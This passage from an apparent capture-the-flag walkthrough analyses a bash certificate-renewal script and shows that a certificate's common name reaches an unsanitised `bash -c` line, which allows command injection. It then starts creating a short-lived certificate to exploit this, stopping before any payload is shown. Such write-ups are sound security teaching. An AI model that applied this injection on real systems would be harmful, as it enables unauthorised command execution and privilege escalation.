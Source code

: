         /bin/bash -c "mv /tmp/temp.crt /home/bill/Certs/$commonName.crt"



### Command Injection

#### Strategy

The very last line above is the important one. There is a command
injection vulnerability in that line if I can control `$commonName`.
Working backwards, `$commonName` is set here:



    commonName=$(echo ${commonName:5} | awk -F, '{print $1}')



This is printing whatever `$commonName` was set as, starting from the
sixth character, and then printing up to the first `,`.

Before that, `$commonName` is set based on `$subject`:



    commonName=$(echo $subject | grep -Eo 'CN = .*,?')



I believe the author is trying to get from `CN =` up through the next
comma or the end of the line, but the way this regex is written, because
`.*` is greedy, it will just always take through the end of the line.
For example:



    bill@broscience:~$ echo "this is a test, more stuff" | grep -Eo '.*,?'
    this is a test, more stuff



`$subject` comes from an `openssl` command output reading the
certificate:



    subject=$(openssl x509 -in $1 -noout -subject | cut -d "=" -f2-)



Effectively, if I can put a command injection payload into a
certificate, and have it expire in less than one day, this script will
execute it.

#### Execute

ChatGPT will quickly give me the `openssl` syntax to make a certificate.
I'll modify it slightly to meet my needs:



    bill@broscience:~$ openssl req -x509 -nodes -newkey rsa:2048 -keyout /dev/null -out Certs/broscience.crt -days 1
    Generating a RSA private key
    ......................................................+++++
    ......................+++++
    writing new private key to '/dev/null'
    -----
    You are about to be asked to enter information that will be incorporated
    into your certificate request.
    What you are about to enter is what is called a Distinguished Name or a DN.
    There are quite a few fields but you can leave some blank
    For some fields there will be a default value,
    If you enter '.', the field will be left blank.
    -----
    Country Name (2 letter code) [AU]:
    State or Province Name (full name) [Some-State]: